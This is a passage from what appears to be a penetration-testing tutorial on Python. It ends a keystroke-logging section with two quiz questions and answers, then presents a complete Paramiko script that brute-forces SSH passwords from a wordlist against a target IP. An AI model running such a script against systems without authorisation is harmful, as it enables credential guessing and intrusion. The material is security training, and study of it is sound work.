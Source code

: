 “keyboard.record” will record the keys until ENTER is pressed, and “keyboard.play” will replay them. As this script is logging keystrokes, any edit using backspace will also be seen. 

## Q & A

Q1 What package installer was used?

A1 pip3

Q2 What line in this code would you change to stop the result from being printed on the screen?

A2 keyboard.play(keys)


# SSH Brute Forcing


The powerful Python language is supported by a number of modules that easily extend its capabilities. Paramiko is an SSHv2 implementation that will be useful in building SSH clients and servers.

The example below shows one way to build an SSH password brute force attack script. As is often the case in programming, there rarely is a single correct answer for these kinds of applications. As a penetration tester, your usage of programming languages will be different for developers. While they may care about best practices and code hygiene, your goal will more often be to end with a code that works as you want it to.

By now, you should be familiar with the "try" and "except" syntax. This script has one new feature, "def". "Def" allows us to create custom functions, as seen below.  The "ssh_connect" function is not native to Python but built using Paramiko and the "paramiko.SSHClient()" function. 

```python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

```